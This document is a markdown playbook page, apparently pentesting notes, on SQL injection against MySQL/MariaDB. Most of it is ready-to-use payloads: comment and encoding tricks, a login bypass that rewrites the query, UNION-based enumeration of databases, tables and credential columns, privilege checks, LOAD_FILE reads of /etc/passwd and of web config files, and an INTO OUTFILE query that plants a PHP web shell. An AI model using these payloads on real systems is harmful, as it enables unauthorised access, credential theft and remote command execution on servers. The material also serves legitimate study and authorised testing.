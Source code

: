 ```yaml
---
slug: /playbooks/sqli
pagination_next: null
pagination_prev: null
---
```

This article describes some tricks for successful SQL injection. The commands describe here apply only for MySQL/MariaDB, but similar approach can be taken for any other relational databases.

## Comments

When trying to make the SQL injection, remember that SQL has different comment characters: `#`  and `--`. Mind the space in the last one, it's better to use `-- -` char for this kind of escape.

## URL encode

If you are trying to discover a SQL injection and you fail, remember that you might need to use the URL-encoded characters:

| Character | URL Encoded Character |
| --------- | --------------------- |
|' |	%27 |
|" |	%22 |
|# |	%23 |
|; |	%3B |
|) |	%29 |

## Query logic

Remember you can subvert any query logic by using the `AND` and `OR` operators, e.g:

```sql
SELECT * FROM logins WHERE username='admin' AND password = 'p@ssw0rd';
```

If you are free to input any value in admin you can ignore the AND:

```sql
SELECT * FROM logins WHERE username='admin'--' AND password = 'p@ssw0rd';
```

Another example, you can just not only ignore the conditions but change them:

```sql
SELECT * FROM logins WHERE ((username='admin') AND id > 1) AND password = 'd41d8cd98f00b204e9800998ecf8427e'
```

username = other')) OR id=5'--

```sql
SELECT * FROM logins WHERE ((username='username = other')) OR id=5'--) AND id > 1) AND password = 'd41d8cd98f00b204e9800998ecf8427e'
```
And you will log-in as user with ID 5

## Union

You can abuse the SQL injection to extract info from any table using the `UNION` clause. You just need to know the number of columns.

You can combine the outputs of two tables provided they have the same number of columns.

In order to know the number of columns, you can use the following methods:

- Order by: you can pass the number of column to sort by: 1,2,3, keep trying until you got an error. That's the number of columns.

- Union: similar to the last one but provide the colums to a union query: `UNION select 1,2,3`. When it fails, you'll know the max number of columns.

This last method provides the benefit that you see in the UI if there are some hidden column.

## Enumerating through SQL injection

You can extract the information in the database via SQL injection. However, first you must know the databases inside, the tables and the structure of them.

No worries, you can make use of the table metadata to obtain this information:

### Databases

All available databases

```sql
SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;
```

Current database

```sql
select 1,database(),2,3-- -
```

### Tables

All available tables in database `dev`

```sql
select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'
```

### Table columns

All available columns in table 'credentials'

```sql
select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'
```

## User privileges

In certain conditions the user might be authorized to read/write files from the database. First of all you need to know the privileges of the current user:

To know the user running the database:

```sql
SELECT 1, user(), 3, 4
```

Check if the user is a super-user:

```sql
SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"
```

List all privileges of user:

```sql
SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"
```

### Reading

If `FILE` privilege is granted for the user, you might be able to read any system file from the database engine:

```sql
SELECT LOAD_FILE('/etc/passwd');
SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4
```

This will work provided the user running the database has read access in the OS.

You can use `TO_BASE64` function for convinience:

```sql
SELECT 1, TO_BASE64(LOAD_FILE("/var/www/html/config.php")), 3, 4
```

And later decode it:
```shell
cat /tmp/b.txt | tr -d ' ' | base64 -d  > /tmp/b.php
```

Note that displaying the base64 added some whitespaces which `base64` command dislikes. You can use `tr` to remove those chars.

### Writing

There are some requirements to be able to write a file from the database:

- `FILE` privilege
- Global `secure_file_priv` variable not enabled
- The user running the database must have write access to the destination

You can check the global variable with a query like:

```sql
SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"
```

If the conditions are met, writing to a file is simple:

```sql
select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'
```

Then, you can try more advanced stuff, like writing a web shell:

```sql
select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'
```

The attacker might run this web-shell from http://SERVER_IP:PORT/shell.php?0=id